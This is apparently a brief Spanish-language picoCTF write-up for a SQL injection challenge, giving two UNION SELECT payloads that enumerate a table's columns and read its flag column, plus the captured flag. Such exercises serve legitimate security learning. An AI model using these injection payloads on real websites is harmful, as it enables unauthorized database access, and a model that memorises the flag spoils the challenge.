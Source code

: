DESCRIPCION 
Can you find the flag on this website.
Additional details will be available after launching your challenge instance.

SOLUCION
Utilicé este comando "Algiers' UNION SELECT null, null, name FROM PRAGMA_table_info('more_table') --", en donde vi la tabla flag para después usar "Algiers' UNION SELECT null, null, flag FROM more_table -- " para ver su contenido, en el cual encontré la siguiente bandera
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}

NOTAS ADICIONALES
Me gustan las bases de datos

REFERENCIAS